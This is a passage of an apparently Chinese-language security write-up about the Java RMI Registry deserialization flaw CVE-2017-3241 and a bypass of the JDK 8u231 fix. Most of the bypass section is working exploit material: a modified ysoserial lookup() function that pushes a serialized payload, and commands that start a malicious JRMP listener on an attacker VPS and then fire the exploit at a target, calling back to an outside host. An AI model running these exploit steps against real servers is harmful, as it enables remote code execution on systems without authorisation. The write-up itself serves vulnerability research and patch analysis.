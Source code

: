 ![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599533627006-55908fa4-af31-48af-a246-284ae647d616.png)

### JDK8u231版本的修复

8u231版本的修复思路是：1、避免反向链接。2、垃圾回收的处理逻辑添加来源数据的过滤。

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599098636645-632e7904-9b41-4777-8ce1-af67d3c6bdbc.png)

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599466541597-e082feff-67b3-4539-8748-5cfdd1044323.png)

### JDK8u231的绕过

参考https://mogwailabs.de/blog/2020/02/an-trinhs-rmi-registry-bypass/中的说明，再次对ysoserial进行改造。

完整源码可见 https://github.com/bit4woo/ysoserial/blob/bit4woo/src/main/java/ysoserial/exploit/RMIRegistryExploitJdk8u231.java

```
/*经过改造的lookup函数
    将enableReplace属性改为了false
    */
    public static void lookup(Registry registry,Remote var1) throws AccessException, AlreadyBoundException, RemoteException {
        try {
            Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

            RemoteRef ref = (RemoteRef) Reflections.getFieldValue(registry,"ref");
            StreamRemoteCall var3 = (StreamRemoteCall)ref.newCall((java.rmi.server.RemoteObject)registry, operations, 2, 4905912898345647071L);
            ObjectOutput var4;
            try {
                var4 = var3.getOutputStream();
                Reflections.setFieldValue(var4,"enableReplace",false);
                var4.writeObject(var1);
            } catch (IOException var5) {
                throw new MarshalException("error marshalling arguments", var5);
            }

            ref.invoke(var3);
            ref.done(var3);
        } catch (RuntimeException var6) {
            throw var6;
        } catch (RemoteException var7) {
            throw var7;
        } catch (AlreadyBoundException var8) {
            throw var8;
        } catch (Exception var9) {
            throw new UnexpectedException("undeclared checked exception", var9);
        }
    }
1、在自己的VPS服务器上启用JRMP监听，如前面所说：但是它是一个恶意的服务端，会向连接它的客户端发送攻击攻Payload，以攻击客户端。

java -cp ysoserial-0.0.5.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "calc.exe"

2、使用改造过的RMIRegistryExploitJdk8u231向漏洞服务器发起请求，针对8u231版本的JDK的利用，必须和JRMPClient2一起使用！！！

java -cp ysoserial-0.0.6-bit4woo-all.jar ysoserial.exploit.RMIRegistryExploitJdk8u231 192.168.1.100 1099 JRMPClient2 sz.myvps.com:1099
```
